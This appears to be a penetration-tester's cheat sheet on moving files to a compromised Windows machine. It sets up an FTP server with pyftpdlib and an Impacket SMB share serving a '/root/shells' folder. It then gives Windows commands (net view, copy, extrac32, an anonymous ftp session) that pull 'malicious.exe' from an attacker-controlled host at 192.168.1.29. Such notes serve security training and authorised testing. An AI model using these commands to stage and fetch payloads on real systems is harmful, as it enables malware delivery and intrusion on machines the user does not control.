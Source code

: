 # 'FTP_server.py':
```
#!/usr/bin/env python
from pyftpdlib import servers
from pyftpdlib.handlers import FTPHandler
address = ("0.0.0.0", 21)  # listen on every IP on my machine on port 21
server = servers.FTPServer(address, FTPHandler)
server.serve_forever()
```

# SMB share:
## setup SMB sharefrom Impacket:
https://github.com/SecureAuthCorp/impacket/blob/master/examples/smbserver.py

from /opt/impacket/examples:
```
python smbserver.py ROPNOP /root/shells
```

## From Windows:
```
net view \\192.168.1.29
dir \\192.168.1.29\folder
copy \\192.168.1.29\folder\mailicious.exe
```

### OR:
```
extrac32 /Y /C \\webdavserver\share\test.txt C:\folder\test.txt
```

# Setup FTP server:
## install and start FTP server:
```
apt-get install python-pyftpdlib
python -m pyftpdlib -p 21
```
## create anonymous ftp with write access to your filesystem.
```
python -m pyftpdlib
python -m pyftpdlib --help
python3 -m pyftpdlib.ftpserver
```

## Download file from Windows:
```
C:\>ftp 192.168.1.29
username: anonymous
password: whatever
ftp> binary
ftp> get malicious.exe
ftp> bye
```
